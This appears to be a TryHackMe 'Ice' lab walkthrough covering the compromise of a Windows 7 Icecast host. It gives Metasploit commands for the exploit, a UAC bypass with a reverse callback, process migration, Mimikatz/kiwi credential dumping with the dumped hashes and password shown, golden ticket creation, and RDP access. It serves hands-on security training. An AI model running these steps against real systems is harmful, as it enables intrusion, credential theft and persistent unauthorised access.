 # TRYHACKME - Ice

```bash
export IP=10.10.146.114
```

## Recon
```bash
sudo nmap -sS -Pn -sV -sC -oN nmap/init.txt -v $IP
```

```
8000/tcp  open  http           Icecast streaming media server
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET
```
=> **CVE-2004-1561**: Execute Code Overflow : https://www.cvedetails.com/cve/CVE-2004-1561/

## Exploit

```bash
msfconsole

search CVE-2004-1561
use 
set # lhost, rhost, rport,...
exploit
```

Foothold

## Post Exploitation
```bash
# whoami in meterpreter shell
getuid # user: DARK-PC\Dark
sysinfo # OS              : Windows 7 (6.1 Build 7601, Service Pack 1); x64

background # session id: 1
use post/multi/recon/local_exploit_suggester # Now that we know the architecture of the process, to perform some further recon. While this(meterpreter x86) doesn't work the best on x64 machines. Using this post module to hang as it tests exploits and might take several minutes to complete
set session 1
exploit

# [+] 10.10.38.248 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
use exploit/windows/local/bypassuac_eventvwr
set session 1
set lhost tun0
set lport 4445
exploit
# [+] Part of Administrators group! Continuing...

getprivs # We can now verify that we have expanded permissions using this command
```

Priviledge Escalation to NT AUTHORITY\SYSTEM: lsass serviceresponsible for authentication within Windows.


In order to interact with lsass we need to be 'living in' a process that is the same architecture as the lsass service (x64 in the case of this machine) and a process that has the same permissions as lsass. The printer spool service happens to meet our needs perfectly for this and it'll restart if we crash it! What's the name of the printer service?: *spoolsv.exe*

```bash
migrate -N spoolsv.exe # Migrate to this process
getuid # Server username: NT AUTHORITY\SYSTEM
```
Now that we've made our way to full administrator permissions we'll set our sights on *looting*. **Mimikatz** is a rather infamous *password dumping tool* that is incredibly useful. Load it now using the command `load kiwi` (Kiwi is the updated version of Mimikatz)
```bash
load kiwi
# successful
help # Kiwi Commands
creds_all # Retrieve all credentials
```

Run this command now. What is Dark's password? Mimikatz allows us to steal this password out of memory even without the user 'Dark' logged in as there is a scheduled task that runs the Icecast as the user 'Dark'. It also helps that Windows Defender isn't running on the box ;) (Take a look again at the ps list, this box isn't in the best shape with both the firewall and defender disabled)

```
Username  Domain   LM                                NTLM                              SHA1
--------  ------   --                                ----                              ----
Dark      Dark-PC  e52cac67419a9a22ecb08369099ed302  7c4fe5eada682714a036e39378362bab  0d082c4b4f2aeafb67fd0ea568a997e9d3ebc0eb

wdigest credentials
===================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
DARK-PC$  WORKGROUP  (null)
Dark      Dark-PC     

tspkg credentials
=================

Username  Domain   Password
--------  ------   --------
Dark      Dark-PC  Password01!

kerberos credentials
====================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
Dark      Dark-PC    Password01!
dark-pc$  WORKGROUP  (null)
```

Command allows us to watch the remote user's desktop in real time: `screenshare`

![Screenshot (872)](https://user-images.githubusercontent.com/71699412/170050314-ec969ff9-05da-428a-81dc-935af5645821.png)

Mimikatz allows us to create what's called a `golden ticket`, allowing us to authenticate anywhere with ease. What command allows us to do this?

Golden ticket attacks are a function within Mimikatz which abuses a component to Kerberos (the authentication system in Windows domains), the ticket-granting ticket. In short, golden ticket attacks allow us to maintain persistence and authenticate as any user on the domain
```bash
golden_ticket_create
```


As we have the password for the user 'Dark' we can now authenticate to the machine and access it via remote desktop (MSRDP).  If this hasn't already been enabled, we can enable it via the following Metasploit module: `run post/windows/manage/enable_rdp`

note: evil-winrm: 5985 WinRM

```bash
xfreerdp /f /u:Dark /p:Password01! /v:$IP[:PORT]
 ```

 ## Futher Reading
Mannual Exploit IceCast: https://www.exploit-db.com/exploits/568
